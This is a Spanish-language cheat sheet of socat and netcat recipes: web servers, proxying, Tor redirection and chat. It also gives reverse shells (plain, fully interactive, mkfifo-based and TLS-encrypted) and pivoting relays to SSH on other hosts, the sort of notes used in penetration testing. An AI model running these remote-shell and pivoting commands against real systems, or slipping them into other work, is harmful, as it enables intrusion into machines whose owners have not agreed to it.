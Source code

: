 [[https://crysol.org/recipe/2005-10-10/netcat-la-navaja-suiza-de-tcp-ip.html|cosas que se pueden hacer con netcat]]
[[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md|reverse shell]]
[[https://www.lawebdelprogramador.com/pdf/11497-netcat.html|pdf lawebprogramador]]
[[https://jameshfisher.com/2018/12/31/how-to-make-a-webserver-with-netcat-nc/|servidor web con netcat]]
[[https://www.busindre.com/start?do=search&id=comandos_openssl_utiles_para_certificados&q=socat|manuales de socat y de todo]]
[[https://gist.github.com/lenciel/8780269|cosas que se pueden hacer con netcat en gist]]
= Socat y netcat =
=== shell reversa ===
- socat
{{{bash
# Con la terminal interactiva
socat file:`tty`,raw,echo=0 TCP-L:4444 # El que escucha
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.0.16:4444
# Una shell reversa de toda la vida
socat - tcp-l:4444
socat tcp:192.168.0.16:4444 exec:/bin/bash
}}}
- netcat
{{{bash
# reversa normal
nc -lvp 4444
nc 192.168.0.16 4444 -e /bin/bash
# Para conseguir shell interactiva completa iniciar con bash oh my zsh da problemas
bash
nc -lvp 4444
# Cuando se conecta la reversa
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl+z
stty raw -echo
fg # Le damos dos veces enter
reset

# interactiva sin autocompletado ni atajos
rm -f /tmp/f 2> /dev/null;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.0.16 4444 >/tmp/f
}}}
=== Pivoting ===
- netcat
{{{bash
rm -f /tmp/f 2> /dev/null; mkfifo /tmp/f; nc -lp 12345 0</tmp/f | nc 192.168.0.200 22 1>/tmp/f
# O la manera facil pero no en openbsd
nc -lvp 4444 -c "nc 192.168.0.200 22"
}}}
- socat
{{{bash
socat -v tcp-l:4444,reuseaddr tcp:192.168.0.200:22
}}}
=== Servidor web ===
- socat
{{{bash
socat \
    -v -d -d \
    TCP-LISTEN:1234,crlf,reuseaddr,fork \
    SYSTEM:"
        echo HTTP/1.1 200 OK; 
        echo Content-Type\: text/plain; 
        echo; 
        echo \"Server: \$SOCAT_SOCKADDR:\$SOCAT_SOCKPORT\";
        echo \"Client: \$SOCAT_PEERADDR:\$SOCAT_PEERPORT\";
    "
}}}
- netcat
{{{bash
while true; do (echo -e 'HTTP/1.1 200 OK\r\n'; echo -e "\n\tMy website has date function" ; echo -e "\t$(date)\n") | nc -lp 8080; done
}}}
=== Shell reversa cifrado ===
- servidor
{{{bash
# Primero creamos el certificado
openssl req -sha512 -new -x509 -days 365 -nodes -out cert.pem -keyout cert.pem
# Ponemos a la escucha para la reverse
socat `tty`,raw,echo=0 openssl-listen:4444,reuseaddr,cert=cert.pem,verify=0
}}}
- cliente
{{{bash
socat openssl-connect:<ip>:4444,verify=0 exec:bash,pty,stderr,setsid
}}}
=== Redireccionamiento ===
===== tor =====
{{{bash
# Antes que nada iniciar el servicio de tor
# sudo systemctl start tor
socat TCP-LISTEN:22222 SOCKS4A:localhost:direccion.onion:22,socksport=9050 &
ssh usuario@localhost -p 22222
# o
ssh -o ProxyCommand="socat STDIO SOCKS4A:localhost:%h:%p,socksport=9050" pi@direccion.onion
# Otra alternativa con nc.openbsd
ssh -o ProxyCommand="nc.openbsd -X 5 -x 127.0.0.1:9050 %h %p" pi@direccion.onion
# direccion
nc -klvp 4444 0< /tmp/f | nc.openbsd -v -X5 -x localhost:9050 direccion.onion 22 1> /tmp/f
}}}
----
[[https://is.gd/G8aegG|explicaciones busindre http >]]
===== http > system =====
{{{bash
socat -v -v TCP-LISTEN:8080,bind=127.0.0.1,crlf,reuseaddr,fork SYSTEM:"echo -e HTTP/4.0 200;echo -e Content-Type\: text/plain;echo 'Hola Caracola'"
# Si se escriben los comandos en un script este puede ser ejecutado de la siguiente forma.
socat -v -v TCP-LISTEN:8080,bind=127.0.0.1,crlf,reuseaddr,fork SYSTEM:"bash $HOME/script.sh.sh"
}}}
===== http > http =====
{{{bash
socat -d -d TCP-LISTEN:8080,fork,reuseaddr TCP:www.dominio.com:80
# Se enviará la cabecera Host: "www.ejemplo.com" y además usa localhost como ip del dominio www.ejemplo.com
curl -vI --resolve www.ejemplo.com:8080:127.0.0.1 http://www.ejemplo.com:8080/bla/bla/page.php -H "Host: www.ejemplo.com"
}}}
===== http > https =====
{{{bash
 # El puerto 8080 escucha peticiones no cifradas y las redirecciona usando SSL/TLS al puerto 443 de www.dominio.com.
socat -d -d TCP-LISTEN:8080,fork,reuseaddr SSL:www.dominio.com:443

# Si no se requiere que socat compruebe el certificado se puede usar verfy=0
socat -d -d TCP-LISTEN:8080,fork,reuseaddr SSL:XX.XX.XX.XX:443,verify=0

# Si se prefiere que socat compruebe el campo commonname del certificado para establecer el handshake.
socat -d -d TCP-LISTEN:8080,fork,reuseaddr SSL:XX.XX.XX.XX:443,commonname=www.dominio.com
}}}
=== chat ===
- socat
{{{bash
socat - tcp-l:4444,reuseaddr
socat - tcp:localhost:4444
 
# Con cifrado
openssl req -sha512 -new -x509 -days 365 -nodes -out cert.pem -keyout cert.pem
socat - openssl-listen:4444,reuseaddr,verify=0,cert=cert.pem
socat - openssl:localhost:4444,verify=0
}}}
- netcat
{{{bash
# Chat normal de uno a uno
nc -lvp 4444
nc localhost 4444

# Chat solo disponible con ncat y cifrado
nc --chat --ssl -lvp 4444
nc --ssl localhost 4444
}}}
